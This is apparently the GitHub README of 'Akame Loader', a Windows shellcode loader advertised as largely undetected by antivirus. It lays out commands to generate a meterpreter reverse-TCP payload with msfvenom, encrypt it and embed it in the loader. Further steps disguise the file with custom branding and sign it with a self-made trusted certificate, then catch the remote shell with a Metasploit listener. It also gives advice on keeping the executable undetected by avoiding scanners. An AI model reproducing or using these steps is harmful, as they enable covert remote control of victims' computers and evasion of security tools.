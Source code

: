 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD (3/71) shellcode loader written in C++17</h4>

## Details
Icon: https://icon-icons.com/icon/Halloween-eye/109170
| Name | Details |
| ------ | ------ |
| Name | Akame Loader |
| Author | WtfIsThis |
| Language | C++17 |
| Platform | Windows |
| Version | 1.0 |
| License | MIT |
| Libraries | user32, advapi32, crypt32 |
| Encryption | AES256 |
| Build | Release - x64 |

! If you change the encryption method and want to keep your executable UD for a longer period of time, don't use VirusTotal / AntiScan.me / any other site that distributes to security vendors.

## Build instructions
**1. Generate a shellcode with metasploit<br>**
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shellcode.bin

**2. Encrypt your shellcode with encrypt.exe<br>**
- mv shellcode.bin \Akame Loader\x64\Release\Resources\ <br>
- cd \Akame Loader\x64\Release\Resources\ <br>
- (optional) encrypt --help<br>
- encrypt.exe -l cpp -m shellcode.bin -e random -o cli<br>

**3. Copy the output and paste it under the "payload" comment<br>**
- Paste your IV key, your KEY and your BUFF into the existent vectors<br>

**4. Change the resources<br>**
- Add your icon, your company name, etc.

**5. Build the project<br>**
- Platform Toolset: Visual Studio 2022 (v143)<br>
- Language standard: ISO C++17<br>
- Optimization: /O2 <br>
- Configuration: Release<br>
- Platform: x64<br>
- Runtime Library: Multi-Threaded (/MT)<br>
- SubSystem: Windows<br>
- Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
- Generate debug info: No
  
**6. Add a certificate to your executable<br>**
  ! Change "Akame.exe" to whatever your executable name is<br>
- move Akame.exe Resources && cd Resources<br>
- makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer<br>
- certutil -user -addstore Root AkameCA.cer<br>
- makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer<br>
- pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx<br>
- signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe
  
**7. Listen for incomming connections<br>**
- msfconsole -q
- use exploit/multi/handler
- set payload windows/x64/meterpreter/reverse_tcp
- (optional) show options
- set LHOST <IP>
- set LPORT <PORT>
- exploit

## Video, WD bypass with a meterpreter shellcode
Link: https://streamable.com/mwknij
Date: 24/10/2022
  
## VirusTotal Scan (3/71 security vendors and no sandboxes on 24/10/2022)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

![Virus Total](https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png)

Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
